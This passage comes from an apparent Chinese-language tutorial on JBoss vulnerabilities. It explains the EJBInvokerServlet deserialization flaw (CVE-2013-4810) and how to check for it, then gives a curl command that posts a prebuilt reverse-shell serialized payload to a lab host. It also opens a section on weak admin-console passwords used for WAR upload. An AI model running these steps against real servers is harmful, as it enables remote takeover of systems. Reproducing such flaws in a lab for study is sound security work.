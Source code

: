 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201010.png)image-20210823094553928

成功反弹shell

#### 安全防护

升级到最新版本。

### 4.JBoss EJBInvokerServlet 反序列化漏洞（CVE-2013-4810）

#### 漏洞原理

此漏洞和`CVE-2015-7501`漏洞原理相同，两者的区别就在于两个漏洞选择的进行其中`JMXInvokerServlet`和`EJBInvokerServlet`利用的是`org.jboss.invocation.MarshalledValue`进行的反序列化操作，而`web-
console/Invoker`利用的是`org.jboss.console.remote.RemoteMBeanInvocation`进行反序列化并上传构造的文件。

#### 影响版本

    
    
     jboss 6.x 版本  
    

#### 漏洞验证

    
    
    访问/invoker/EJBInvokerServlet，如果可以访问的到，说明存在漏洞  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201011.png)image-20210823094955346

#### 漏洞复现

还是利用上面生成的.ser文件，通过POST 二进制数据上去，反向连接shell

    
    
    curl http://192.168.10.154:8080/invoker/EJBInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201012.png)image-20210823095326056

### 5.Administration Console 弱口令

#### 漏洞原理

Administration Console管理页面存在弱口令，登录后台可以上传war包

#### 影响版本

#### 漏洞验证

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201013.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201014.png)image-20210823100247859

#### 漏洞复现
